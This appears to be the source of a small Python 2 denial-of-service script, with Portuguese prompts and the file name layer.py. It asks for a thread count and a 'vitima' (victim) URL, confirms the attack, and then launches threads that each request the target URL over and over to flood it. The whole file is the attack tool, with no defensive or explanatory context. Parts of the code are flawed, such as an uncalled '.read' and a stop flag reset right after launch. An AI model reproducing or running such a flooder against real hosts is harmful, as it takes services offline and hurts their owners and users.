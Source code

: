 # layer.py
﻿#/usr/bin/Python # -*- coding: utf-8 -*- import sys import time import threading import urllib    time.sleep(3)   a=1 b=threading.Lock()   class dos(threading.Thread):     def __init__(self, host, threads):         threading.Thread.__init__(self)         self.host = host         self.threads = threads     def run(self):         global a         global b         b.acquire()         print "\n                           ecosistema -> {0}".format(self.threads)         b.release()         while 1 == a:             try:                 urllib.urlopen(self.host).read                 try:                     urllib.urlopen(self.host).read                 except:                     pass             except:                 pass         b.acquire()         print "                          ecosistema {0}\n".format(self.threads)         b.release()         sys.exit() try:     threads=input("              Potência(100000) : ") except NameError:     sys.exit() while True:     host=raw_input("\n             vitima  : ")     print "\n                Ecosistema1533 \n"     time.sleep(2)     try:         urllib.urlopen(host)     except IOError:         print "\nEspere um momento\n"         sys.exit()     else:         break print "\n"*2500 c=raw_input("                    Deseja iniciar o attack ? ( Y/N ) > ") if c=="Y":     pass elif c=="N":     print "\n                           Ecosistema.\n"     sys.exit() for A in xrange(threads):     dos(host, A+1).start() a=0 print "                    Ecosistema1533   \n"

